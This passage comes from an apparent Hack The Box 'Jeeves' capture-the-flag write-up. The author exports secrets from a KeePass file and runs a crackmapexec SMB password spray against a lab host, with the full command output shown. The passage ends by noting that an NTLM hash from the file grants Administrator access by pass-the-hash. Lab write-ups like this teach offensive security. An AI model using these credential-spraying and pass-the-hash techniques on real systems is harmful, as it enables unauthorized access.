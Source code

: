 I then exported all the secrets from the keepass database file as an HTML file:

![](/assets/images/htb-jeeves/jeeves-keepass-passwords-plaintext-html.png)

From here, I performed a password spraying attack with `crackmapexec` against all known users:

```
$ crackmapexec smb 10.10.10.63 -u usernames.txt -p passwords.txt
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:JEEVES) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:Password STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:12345 STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:F7WhTrSFDKB6sxHU1cUn STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:pwndyouall! STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:lCEUnYPjNfIuPZSzOySA STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:S1TjAtJHKsugh9oC4VZl STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke: STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:Password STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:12345 STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:F7WhTrSFDKB6sxHU1cUn STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:pwndyouall! STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:lCEUnYPjNfIuPZSzOySA STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:S1TjAtJHKsugh9oC4VZl STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator: STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 STATUS_LOGON_FAILURE
```

None of the secrets worked as passwords for my list of users. However, I noticed that the last secret in the `.kdbx` file looked like an NTLM hash.
I ran `crackmapexec` with the hash against the list of users again just to realize that I compromised the Administrator's hash:
